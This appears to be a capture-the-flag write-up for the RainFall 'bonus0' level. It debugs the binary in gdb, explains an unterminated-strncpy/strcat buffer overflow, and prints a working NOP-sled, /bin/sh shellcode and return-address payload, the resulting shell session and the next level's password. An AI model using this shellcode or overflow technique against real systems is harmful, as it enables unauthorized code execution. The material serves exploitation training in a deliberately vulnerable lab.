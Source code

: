 # Bonus

- Once logged in, you will see a binary `bonus0`

```
[???]$ ssh localhost -p 4242 -l bonus0
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
bonus0@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
bonus0@RainFall:~$ ls
bonus0
bonus0@RainFall:~$
```

let's execute and see what this does

```
bonus0@RainFall:~$ ./bonus0
 -
a
 -
b
a b
bonus0@RainFall:~$ ./bonus0
 -
aa
 -
bbbbbbbbbbbbb
aa bbbbbbbbbbbbb
bonus0@RainFall:~$ ./bonus0
 -
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 -
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
aaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbb�� bbbbbbbbbbbbbbbbbbbb��
Segmentation fault (core dumped)
```

this seems the program takes input, and prints out each input. but from the prompt of the last one, the output gives segmentation falult with lengthy input.

Let's take a deeper look into the program by using gdb.

From taking at the list of functions, there is a function p, pp, and main.
```
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
[...]
0x080484b4  p
0x0804851e  pp
0x080485a4  main
[...]
```

by analyzing the source code, we can see the the program ins using `strcpy(), strcat()`, which both are vulnerable for buffer overflow attack.

the program first calls function `pp`, and from function `pp` it calles `p` function.

From function `p`, it frist prints prints `" - "` on screen, and gets input with buffer size of 0x1000 from stdin. Once it copies into the buffer, if the buffer contains `newline; nl; '\n'`, it will set value where `\n` was placed into 0(=NULL; \0) and copies back 20 bytes back into first parameter of function.

by checking the output, the two buffers are stored next to each other. The strncpy() is call to copy the first 20 bytes. but on the man page,

```
 If stpncpy() does not terminate dst with a
     NUL character, it instead returns a pointer to dst[n] (which
     does not necessarily refer to a valid memory location.)
```

And as the buffer is next to each other, `strcat()` function will consider the second string as the part of the first string, since there is no `'\0'` is located in the first part of the buffer.

Since we know the input will be stored next to each other, as we have been doing past subjects, we need to provide a payload that returns to the address where `shellcode` is stored.

Now we build the payload.

the first argument will consist with NOP instruction greater than 61 bytes and less than the buffer.

```
NOP * 100 + [shellcode]
"\x90" * 100 + "x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

then find the `buffer` address for beginning of buffer address + 61 and end of the NOP instruction

```
gdb-peda$ b *p
gdb-peda$ run
[...]
gdb-peda$ ni
[....]
[----------------------------------registers-----------------------------------]
EAX: 0x4
EBX: 0xb7fd0ff4 --> 0x1a4d7c
ECX: 0xffffffff
EDX: 0xb7fd28b8 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0xbffff648 --> 0xbffff6a8 --> 0xbffff6f8 --> 0x0        <- beginning of the buffer
ESP: 0xbfffe630 --> 0x80486a0 --> 0x202d20 (' - ')
EIP: 0x80484d0 (<p+28>:	lea    eax,[ebp-0x1008])
EFLAGS: 0x200282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80484c0 <p+12>:	mov    DWORD PTR [esp],eax
   0x80484c3 <p+15>:	call   0x80483b0 <puts@plt>
   0x80484c8 <p+20>:	mov    DWORD PTR [esp+0x8],0x1000
=> 0x80484d0 <p+28>:	lea    eax,[ebp-0x1008]
   0x80484d6 <p+34>:	mov    DWORD PTR [esp+0x4],eax
   0x80484da <p+38>:	mov    DWORD PTR [esp],0x0
   0x80484e1 <p+45>:	call   0x8048380 <read@plt>
   0x80484e6 <p+50>:	mov    DWORD PTR [esp+0x4],0xa
[------------------------------------stack-------------------------------------]
0000| 0xbfffe630 --> 0x80486a0 --> 0x202d20 (' - ')
0004| 0xbfffe634 --> 0x0
0008| 0xbfffe638 --> 0x1000
0012| 0xbfffe63c --> 0x0
0016| 0xbfffe640 --> 0x0
0020| 0xbfffe644 --> 0x0
0024| 0xbfffe648 --> 0x0
0028| 0xbfffe64c --> 0x0
[------------------------------------------------------------------------------]
```

*** THE ADDRESS WILL CHANGE, AND WE WANT TO FIND THE ESP TO DETERMINE WHERE WE SHOULD FEED THE PAYLOAD THAT OVERWRITES***

```
Choose an address between 0xbfffe630 + 61 (0xbfffe66d) and 0xbfffe630 + 100 (0xbfffe694) => 0xbfffe694 (\x94\xe6\xff\xbf)
```

the exploit will be following

```
# first argument
python -c 'print "\x90" * 100 + "x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'
# second argument
python -c 'print "A" * 9 + "\x94\xe6\xff\xbf" + "B" * 7'

# payload
(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\x94\xe6\xff\xbf" + "B" * 7'; cat) | ./bonus0
```

```
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\x94\xe6\xff\xbf" + "B" * 7'; cat) | ./bonus0
 -
 -
��������������������AAAAAAAAA����BBBBBBB�� AAAAAAAAA����BBBBBBB��
ls
ls: cannot open directory .: Permission denied
cat /home/users/bonus1/.pass
cat: /home/users/bonus1/.pass: No such file or directory
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
